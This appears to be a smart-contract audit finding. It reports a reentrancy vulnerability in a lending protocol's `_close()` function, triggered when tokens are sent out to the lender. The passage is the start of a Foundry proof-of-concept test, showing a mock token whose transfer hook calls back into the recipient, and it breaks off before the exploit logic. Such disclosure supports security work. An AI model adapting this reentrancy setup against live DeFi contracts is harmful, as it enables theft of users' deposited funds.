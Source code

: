 [Similar attack on imBTC](https://zengo.com/imbtc-defi-hack-explained)

### Proof of Concept

The vulnerable point is in `\_close()` function,

    function _close(Credit memory credit, bytes32 id) internal virtual returns (bool) {
        // ...
        if (credit.deposit + credit.interestRepaid > 0) {
            LineLib.sendOutTokenOrETH( // @audit reentrancy attack from here
                credit.token,
                credit.lender,
                credit.deposit + credit.interestRepaid
            );
        }
        // ...
    }

The following testcase shows how to exploit it, put it into a new LenderExploit.t.sol file under 'test' directory, it will pass

```
pragma solidity 0.8.9;

import "forge-std/Test.sol";
import { Denominations } from "chainlink/Denominations.sol";
import { Address } from "openzeppelin/utils/Address.sol";

import { Spigot } from "../modules/spigot/Spigot.sol";
import { Escrow } from "../modules/escrow/Escrow.sol";
import { SecuredLine } from "../modules/credit/SecuredLine.sol";
import { ILineOfCredit } from "../interfaces/ILineOfCredit.sol";
import { ISecuredLine } from "../interfaces/ISecuredLine.sol";

import { LineLib } from "../utils/LineLib.sol";
import { MutualConsent } from "../utils/MutualConsent.sol";

import { MockLine } from "../mock/MockLine.sol";
import { SimpleOracle } from "../mock/SimpleOracle.sol";
import { RevenueToken } from "../mock/RevenueToken.sol";


interface IHook {
    function tokensReceived(
        address from,
        address to,
        uint256 amount
    ) external;
}

contract RevenueTokenWithHook is RevenueToken {
    using Address for address;
    mapping(address => bool) public registry;

    function _afterTokenTransfer(
        address from,
        address to,
        uint256 amount
    ) internal virtual override {
        super._afterTokenTransfer(from, to, amount);
        if (registry[to]) {
            IHook(to).tokensReceived(from, to, amount);
        }
    }

```